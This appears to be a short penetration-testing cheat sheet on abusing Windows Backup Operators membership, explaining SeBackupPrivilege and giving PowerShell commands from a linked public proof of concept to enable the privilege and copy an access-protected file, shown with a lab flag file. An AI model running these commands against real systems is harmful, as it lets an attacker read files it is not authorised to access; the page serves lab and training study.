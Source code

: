 # Backup Operators

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**Membership**</mark> of this group <mark style="color:purple;">**grants its members**</mark> the <mark style="color:green;">`SeBackup`</mark> and <mark style="color:green;">`SeRestore`</mark> privileges. The <mark style="color:green;">`SeBackupPrivilege`</mark> allows us to <mark style="color:purple;">**traverse any folder and list the folder contents**</mark>. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the **FILE\_FLAG\_BACKUP\_SEMANTICS** flag.

We can use this PoC [**\[LINK\]**](https://github.com/giuliano108/SeBackupPrivilege) to exploit the <mark style="color:green;">`SeBackupPrivilege`</mark>, and copy forbidden files.

#### Importing Required Libraries

```powershell
PS C:\> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

#### Enabling `SeBackupPrivilege`

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> Set-SeBackupPrivilege
</strong>PS C:\> whoami /priv # verifying
PS C:\> Get-SeBackupPrivilege # verifying
</code></pre>

#### Copying a Protected File

```powershell
PS C:\> Copy-FileSeBackupPrivilege 'C:\Users\venator17\flag.txt' .\flag.txt
PS C:\> cat .\flag.txt
```
